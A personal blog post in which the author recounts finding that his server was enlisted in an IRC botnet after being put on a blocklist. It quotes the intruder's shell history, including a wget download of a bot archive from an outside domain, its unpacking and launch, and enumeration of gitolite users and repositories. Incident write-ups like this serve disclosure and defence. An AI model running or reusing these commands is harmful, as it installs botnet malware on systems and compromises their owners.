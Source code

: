 ```yaml
---
title: Haxxed
date: 2015-05-02T20:54:09
tags: ["hacked", "hack", "hacker", "botnet"]
guid: "https://blog.afoolishmanifesto.com/posts/haxxed"
---
```

This has been a pretty big week for me;  On Tuesday we listed our house to be
sold!  On Wednesday night I got what I thought was indigestion, and on Thursday
had an appendectomy!  Just today, Saturday, I think we have sold the house
(pending all required legal grace periods of course.)

This all pales in comparison to the *really* big news this week:
**this server got hacked**.

Saturday morning I noticd that Freenode was blocking my IRC client because I was
on some blocklist (DroneBL, to be specific.)  I looked into it briefly with
[mst](http://shadow.cat/blog/matt-s-trout/)'s help.  I verified that I wasn't an open
email relay with [an automated tool](http://www.mailradar.com/openrelay/) and
then manually checked that I wasn't accidentally proxying any http without
realizing it.  Matt's idea was that maybe their was an automated check for an
http proxy and my server wasn't "correctly" returning a 401/403.

I emailed the block list (twice actually, the first time their UI got an error
and dropped the message; the second time the UI got a different error and
delivered it) and thankfully got a very complete and helpful response...

It turns out that the message shown on the blocklist website was pretty
misleading, as it was mostly vitriol about bumbling sysadmins with open HTTP
proxies, but what I was on the list for was for being part of an IRC botnet!

The email included instructions on how to find a certain class of bot on the
server, which I'll leave out since it's not really that interesting.

When I found the bot it was indeed pretty interesting.  First off, it was
installed in `/home/git/.gnome`.  Before I go into the guts of that folder lets
do some detective work and take a look at the (apparently unaltered)
`.bash_history`:

```
ps x
ping ircu.atw.hu
cd /
ls -a
cd
wget md3701.pop3.ru/bot/zm3u.tgz
tar zxvf zm3u.tgz
cd .gnome
ls -a
./start alibaba
ps x
ls
cd
ls
ls bin
gitolite 
cd gitolite/
ls
git status
git log
git pull
ls
cd ..
gitolite
gitolite list-users
gitolite list-repos
```